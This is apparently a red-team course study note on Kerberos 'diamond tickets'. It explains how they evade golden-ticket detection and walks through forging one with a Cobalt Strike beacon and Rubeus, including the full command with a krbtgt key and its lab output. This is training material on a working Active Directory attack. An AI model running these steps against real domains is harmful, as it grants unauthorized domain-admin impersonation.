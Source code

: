 
Domain controllers don't track TGTs it (or they) have legitimately issued, they will happily accept TGTs that are encrypted with its own krbtgt hash.

A possible tactic to detect the use of golden tickets is to look for TGS-REQs that have no corresponding AS-REQ. (why is this TGT not linked to any TGS? detection !!)

Diamond tickets are created from the necessity of evading detection on the usage of [[Golden Tickets]]. 

A "diamond ticket" is made by modifying the fields of a legitimate TGT that was issued by a DC.

#### 🖊️ How it works

We request a legitimate TGT, decrypt it with the domain's krbtgt hash, modify the desired fields of the ticket, then re-encrypt it.  This overcomes the aforementioned shortcoming of a golden ticket because any TGS-REQs will have a preceding AS-REQ.


#### 📔 forge via Cobalt Strike

1) First, we prove we have no access to the DC.

```
beacon> getuid
[*] You are DEV\bfarmer

beacon> ls \\dc-2.dev.cyberbotic.io\c$
[-] could not open \\dc-2.dev.cyberbotic.io\c$\*: 5 - ERROR_ACCESS_DENIED
```

2) Diamond tickets can be created with Rubeus.

`beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe diamond /tgtdeleg /ticketuser:nlamb /ticketuserid:1106 /groups:512 /krbkey:51d7f328ade26e9f785fd7eee191265ebc87c01a4790a7f38fb52e06563d4e7e /nowrap`

where:

- `/tgtdeleg` uses the Kerberos GSS-API to obtain a useable TGT for the current user without needing to know their password, NTLM/AES hash, or elevation on the host.
- `/ticketuser` is the u sername of the user to impersonate.
- `/ticketuserid` is the domain RID of that user.
- `/groups` are the desired group RIDs (512 being Domain Admins).
- `/krbkey` is the krbtgt AES256 hash.

Output will look like this:

```
[*] Action: Diamond Ticket

[*] No target SPN specified, attempting to build 'cifs/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/dc-2.dev.cyberbotic.io'
[+] Kerberos GSS-API initialization success!
[+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: +mzV4aOvQx3/dpZGBaVEhccq1t+jhKi8oeCYXkjHXw4=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):

      doIFgz [...snip...] MuSU8=

[*] Decrypting TGT
[*] Retreiving PAC
[*] Modifying PAC
[*] Signing PAC
[*] Encrypting Modified TGT

[*] base64(ticket.kirbi):

      doIFYj [...snip...] MuSU8=
```


3) Rubeus `describe` will now show that this is a TGT for the target user.

```
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe describe /ticket:doIFYj[...snip...]MuSU8=

[*] Action: Describe Ticket

  ServiceName              :  krbtgt/DEV.CYBERBOTIC.IO
  ServiceRealm             :  DEV.CYBERBOTIC.IO
  UserName                 :  nlamb
  UserRealm                :  DEV.CYBERBOTIC.IO
  StartTime                :  7/7/2022 8:41:46 AM
  EndTime                  :  7/7/2022 6:41:46 PM
  RenewTill                :  1/1/1970 12:00:00 AM
  Flags                    :  name_canonicalize, pre_authent, forwarded, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  jp4k3G5LvXpIl3cuAnTtgLuxOWkPJIUjOEZB5wrHdVw=
```



####  📗 C


#### ⚠ Opsec




### Properties
---
📆 created   {{25-02-2024}} 14:11
🏷️ tags: #redteam #crto 

---


